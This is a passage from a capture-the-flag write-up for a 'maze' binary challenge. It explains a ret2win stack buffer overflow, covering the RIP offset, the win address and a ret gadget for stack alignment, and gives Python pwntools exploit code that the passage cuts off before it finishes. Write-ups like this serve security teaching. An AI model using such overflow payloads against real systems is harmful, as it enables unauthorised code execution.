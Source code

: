 This most likely means that we have some kind of win function! 
If we actually go through the function, we can see this:
![](../assets/images/writeups/maze/image-11.png)

Let's just jump there!

Therefore, this is our exploit:
```py
rip_offset = 0x38
win = 0x4017b4

# Send winning payload and enjoy :)
io.recvuntil(b'record your name : ')
io.sendline(b'A' * rip_offset + p64(win))
```

Using this actually made us jump to system! But.. our $rsp was not aligned to 0x10, which causes a segfault in system.

Let's fix this using a gadget:
```py
rip_offset = 0x38
win = 0x4017b4
ret_gadget = 0x40079f

# Send winning payload and enjoy :)
io.recvuntil(b'record your name : ')
io.sendline(b'A' * rip_offset + p64(ret_gadget) + p64(win))
```

And then we r00t.

Full Exploit:

```py
io = start()

# Send anything to start the game.
io.send(b'j')

# Due to the fact that they randomize the locations of the guards via 
# a rand that is predictable, we can simply beat the first 4 levels on our own, 
# and write the way to beat them. 
# That way, we'll always beat them and we can simply get to the OPENSESAMI part!
beat_3_levels = 'ssdddwwdddssddwwwddssdssdssassddsssassd'

# Beat first 3 levels.
for i in range(3):
    io.send(beat_3_levels)

io.recvuntil("level 3")

beat_level_4 = 'ssdddwwdddssdssssassasssddddddssdddd'
io.send(beat_level_4)

io.recvuntil("level 4")

get_to_open_sesami = 'ssdddwwdddssddwwddssdsdsssassdd' + 'j' * 80 + 'sssassaaaaa'
io.send(get_to_open_sesami)

# Get to the coordinates for the open sesami!
```